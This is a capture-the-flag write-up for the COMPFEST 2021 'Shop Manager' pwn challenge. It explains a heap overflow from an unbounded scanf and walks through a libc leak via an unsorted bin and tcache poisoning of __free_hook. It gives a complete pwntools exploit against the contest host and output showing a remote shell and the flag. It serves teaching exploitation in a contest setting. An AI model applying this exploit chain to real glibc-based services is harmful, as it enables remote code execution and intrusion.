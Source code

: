 ## Shop Manager

> Points: 496
>
> Solves: 6

### Description:
A simple shop simulator

nc 103.152.242.242 39221

Author: prajnapras19

### Attachments:
```
shop-manager-master-public.zip
```

## Analysis:

The menu is as follows, and this binary has `Add`, `Delete`, `Edit`, `List`, `Sell` functions.

```
Menu:
1. Add item
2. Delete item
3. Edit item
4. List of added items
5. Sell item
6. Exit
```
The `Item name` input for the `Add` and `Edit` functions uses `__isoc99_scanf("%s", buf)`. Therefore, it has a heap buffer overflow vulnerability because it does not check the size of the input string.

Below is the compile result of `addItem()` by Ghidra.

```c
void addItem(void)

{
  long lVar1;
  int iVar2;
  void *pvVar3;
  
  iVar2 = idx;
  if (idx == N) {
    puts("Our shop is full.");
  }
  else {
    pvVar3 = malloc(0x10);
    *(void **)(items + (long)iVar2 * 8) = pvVar3;
    lVar1 = *(long *)(items + (long)idx * 8);
    pvVar3 = malloc(0x20);
    *(void **)(lVar1 + 8) = pvVar3;
    printf("Item name: ");
    __isoc99_scanf("%s",*(undefined8 *)(*(long *)(items + (long)idx * 8) + 8));
    printf("Item price: ");
    __isoc99_scanf("%ld",*(undefined8 *)(items + (long)idx * 8));
    idx = idx + 1;
    puts("Item added successfully.");
  }
  return;
}
```

## Solution:

First I considered how to leak the libc address.
I added 16 Items to make a big chunk.
Then change the name of the 0th Item using a heap buffer overflow as follows: Resize the 1st chunk from 0x21 to 0x431.

```
0x604260:	0x0000000000000000	0x0000000000000021
0x604270:	0x0000000000000001	0x0000000000604290
0x604280:	0x0000000000000000	0x0000000000000031
0x604290:	0x6161616161616161	0x6161616161616161
0x6042a0:	0x6161616161616161	0x6161616161616161
0x6042b0:	0x6161616161616161	0x0000000000000431   Change to 0x21 => 0x431
0x6042c0:	0x0000000000000000	0x00000000006042e0
0x6042d0:	0x0000000000000000	0x0000000000000031
0x6042e0:	0x4242424242424242	0x0000000000000000
0x6042f0:	0x0000000000000000	0x0000000000000000
0x604300:	0x0000000000000000	0x0000000000000021
```

I can create a 0x430 size unsorted bin chunk by deleting the 1st Item.
```
0x604260:	0x0000000000000000	0x0000000000000021
0x604270:	0x0000000000000001	0x0000000000604290
0x604280:	0x0000000000000000	0x0000000000000031
0x604290:	0x6161616161616161	0x6161616161616161
0x6042a0:	0x6161616161616161	0x6161616161616161
0x6042b0:	0x6161616161616161	0x0000000000000431
0x6042c0:	0x00007ffff7dcdca0	0x00007ffff7dcdca0  The 1st chunk goes into an unsorted bin
0x6042d0:	0x0000000000000000	0x0000000000000000
0x6042e0:	0x4242424242424242	0x0000000000000000
0x6042f0:	0x0000000000000000	0x0000000000000000
0x604300:	0x0000000000000000	0x0000000000000021
```

Furthermore, if I execute the `Add` function, I can put the address of the unsorted bin chunk in the 2nd chunk, so I can leak the libc address with the `List` function.
```
    'Name: `G`\n'
    'Price: 140737351834784\n'      =>  0x00007ffff7dcdca0
```

Now that I have chunk overhauled, I can put `__free_hook` into tcache using the `Add`, `Delete` and `Edit` features shown below.
```
# tcache poisoning
Add("c", 3)
Delete(5)
Delete(1)
Edit(14, "d", free_hook)
```

The following is the state of tcache after executing the above function.
```
pwndbg> bins
tcachebins
0x20 [100]: 0x604310 —▸ 0x7ffff7dcf8e8 (__free_hook) ◂— 0x0
```

Finally, I write `/bin/sh` to Price of the 14th chunk, I write the address of the `system` function to `__free_hook`, and delete the 14th chunk to start the shell.

```
# Write system address in __free_hook
Add("e", u64("/bin/sh\x00"))   # 14
Add("f", system_addr)

# Start shell
Delete(14)
```

I didn't use the `Sell` function.


## Exploit code:
```python
from pwn import *

#context(os='linux', arch='amd64')
#context.log_level = 'debug'

BINARY = './chall'
elf  = ELF(BINARY)

if len(sys.argv) > 1 and sys.argv[1] == 'r':
  HOST = "103.152.242.242"
  PORT = 39221
  s = remote(HOST, PORT)
  libc = ELF("./libc-2.27.so")
else:
  s = process(BINARY)
  libc = elf.libc

def Add(data, price):
  s.sendlineafter("> ", "1")
  s.sendlineafter("name: ", data)
  s.sendlineafter("price: ", str(price))

def Delete(idx):
  s.sendlineafter("> ", "2")
  s.sendlineafter("): ", str(idx))

def Edit(idx, data, price):
  s.sendlineafter("> ", "3")
  s.sendlineafter("): ", str(idx))
  s.sendlineafter("name: ", data)
  s.sendlineafter("price: ", str(price))

def List():
  s.sendlineafter("> ", "4")

def Sell(idx, item):
  s.sendlineafter("> ", "5")
  s.sendlineafter("): ", str(idx))
  s.sendlineafter("item?\n", item)

def Exit():
  s.sendlineafter("> ", "6")

for i in range(16):
  Add(chr(0x41+i)*8, 1)

# libc leak
Edit(0, "a"*0x28+p64(0x431), 1)
Delete(1)
Add("b", 2)
List()
for i in range(2):
  s.recvuntil("Price: ")
libc_leak = int(s.recvuntil("\n"))
libc_base = libc_leak - libc.sym.__malloc_hook - 0x70
free_hook = libc_base + libc.sym.__free_hook
system_addr = libc_base + libc.sym.system
print "libc_leak =", hex(libc_leak)
print "libc_base =", hex(libc_base)

# tcache poisoning
Add("c", 3)
Delete(5)
Delete(1)
Edit(14, "d", free_hook)

# Write system address in __free_hook
Add("e", u64("/bin/sh\x00"))   # 14
Add("f", system_addr)

# Start shell
Delete(14)

s.interactive()
```

## Results:
```bash
mito@ubuntu:~/CTF/COMPFEST_CTF_2021/Pwn_Shop_Manager/shop-manager-master-public/public$ python solve.py r
[*] '/home/mito/CTF/COMPFEST_CTF_2021/Pwn_Shop_Manager/shop-manager-master-public/public/chall'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[+] Opening connection to 103.152.242.242 on port 39221: Done
[*] '/home/mito/CTF/COMPFEST_CTF_2021/Pwn_Shop_Manager/shop-manager-master-public/public/libc-2.27.so'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
libc_leak = 0x7ff49f953ca0
libc_base = 0x7ff49f568000
[*] Switching to interactive mode
$ id
/bin/sh: 1: id: not found
$ ls -l
total 2208
drwxr-xr-x  2 0 0    4096 Sep 12 04:33 bin
-r-xr-xr-x  1 0 0   17264 Sep 12 04:33 chall
drwxr-xr-x  2 0 0    4096 Sep 12 04:33 dev
-r--r--r--  1 0 0      56 Sep 12 04:33 flag.txt
-rwxr-xr-x  1 0 0  179152 Sep 12 04:33 ld-2.27.so
drwxr-xr-x 21 0 0    4096 Sep 12 04:33 lib
drwxr-xr-x  3 0 0    4096 Sep 12 04:33 lib32
drwxr-xr-x  2 0 0    4096 Sep 12 04:33 lib64
-rwxr-xr-x  1 0 0 2030928 Sep 12 04:33 libc-2.27.so
-rwxr-xr-x  1 0 0     339 Sep 12 04:33 run.sh
$ cat flag.txt
COMPFEST13{I_us3_st4Ck_p1v0T1ng_How_bouT_Y0u_dd4dfcc265}
```

